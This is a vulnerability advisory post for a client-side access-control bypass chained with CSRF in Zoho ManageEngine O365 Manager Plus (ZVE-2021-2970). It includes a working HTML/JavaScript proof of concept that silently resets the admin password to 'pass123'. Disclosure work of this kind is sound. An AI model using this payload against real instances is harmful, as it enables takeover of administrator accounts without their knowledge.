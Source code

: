 ```yaml
---
layout: post
title:  "Zoho ManageEngine O365 Manager Plus - Admin Account Takeover Chain"
tag: advisory
excerpt_separator: <!--more-->

---
```


Zoho ManageEngine O365 Manager Plus before Build 4423 is vulnerable to client-side access-control bypass & CSRF attacks.  
<!--more-->

### **Identifiers**
 - ZVE-2021-2970

### **Instances**
  - http://o365.local:8365/RestAPI/WC/Technicians?operation=changePassword

### **Affected versions**
4.4

### **Technical Details:**
It was observed that the application implement client-side controls to prevent an admin user to change their password from /technicians endpoint. This can be seen in the following screenshot as the admin user field is marked as read-only.

  ![](/assets/images/ZVE-2021-2970/1.png)
The above protection can be bypassed by changing specific paramters in request, allowing the change password operation for admin user without the need for old password.

As the affected endpoint also do not have CSRF protection as well, this allows a 1-click account takeover account.

By chaning two vulnerabilities, an attacker can coerce an admin user in updating their  password without the knowledge of old password and hijack their account.

### **Impact:** 
A successful attack will result in admin user account compromise. 

### **Steps to Reproduce:**
  * Login to the admin user account.
  * Save the following html code in a new html file and execute it, in a another browser tab.
    ```html
    <html>
    <body>
    <script>
      function e()
      {
        var xhr = new XMLHttpRequest();
        xhr.open("POST", "http:\/\/o365.local:8365\/RestAPI\/WC\/Technicians?operation=changePassword", true);
        xhr.setRequestHeader("Accept", "application\/json, text\/javascript, *\/*; q=0.01");
        xhr.setRequestHeader("Accept-Language", "en-US,en;q=0.5");
        xhr.setRequestHeader("Content-Type", "application\/x-www-form-urlencoded; charset=UTF-8");
        xhr.withCredentials = true;
        var body = "TECHNICIAN_DETAILS=%7B%22DELEGATED_ROLES%22%3A%5B%22Reset+Password%22%5D%2C%22ACTIVE%22%3Atrue%2C%22IS_PRODUCT_TECHNICIAN%22%3Atrue%2C%22LOGIN_ID%22%3A1%2C%22IMPERSONATE_ADMIN%22%3Atrue%2C%22DELEGATED_LICENSE_SERVICE%22%3A%7B%7D%2C%22USER_ID%22%3A1%2C%22USER_NAME%22%3A%22admin%22%2C%22USER_AUTH_TYPE%22%3A%22PRODUCT_USER%22%2C%22DELEGATION_ROWS%22%3A%5B%7B%22ROLE_DETAIL%22%3A%7B%22SERVER_VALUE%22%3A4%2C%22CLIENT_VALUE%22%3A%22Reset+Password%22%7D%2C%22vTENANT_DETAIL%22%3A%7B%22SERVER_VALUE%22%3A1%2C%22CLIENT_VALUE%22%3A%22o365.delegation.vtenant.default_name%22%7D%2C%22ACCOUNT_DETAIL%22%3A%7B%22SERVER_VALUE%22%3A1%2C%22CLIENT_VALUE%22%3A%22dhar007.onmicrosoft.com%22%7D%7D%5D%2C%22DELEGATED_ROLES_IDS%22%3A%5B4%5D%2C%22NAME%22%3A%22helpdesk%22%2C%22DELEGATED_DOMAINS_ARRAY%22%3A%5B%5D%2C%22SERVER_VALUE%22%3A3%2C%22DELEGATED_TEMPLATES_ARRAY%22%3A%5B%5D%2C%22AUTHENTICATION%22%3A%22Product+Authentication%22%2C%22DESCRIPTION%22%3A%22Help+Desk+Associate.%22%2C%22DELEGATED_ROLES_STRING%22%3A%22Reset+Password%22%2C%22CLIENT_VALUE%22%3A%22helpdesk%22%2C%22DOMAINNAME%22%3A%22Office365+Manager+Plus+Authentication%22%2C%22SELECTED%22%3Afalse%2C%22PASSWORD%22%3A%22pass123%22%2C%22DOMAIN_NAME%22%3A%22Office365+Manager+Plus+Authentication%22%7D";
        var aBody = new Uint8Array(body.length);
        for (var i = 0; i < aBody.length; i++)
          aBody[i] = body.charCodeAt(i); 
        xhr.send(new Blob([aBody]));
      }
      e();
    </script>
    </body>
    </html>
    ```
  * Above exploit code when executed will change the admin password to pass123.

### **Solution:**
It is recommend to implement CSRF protection for admin .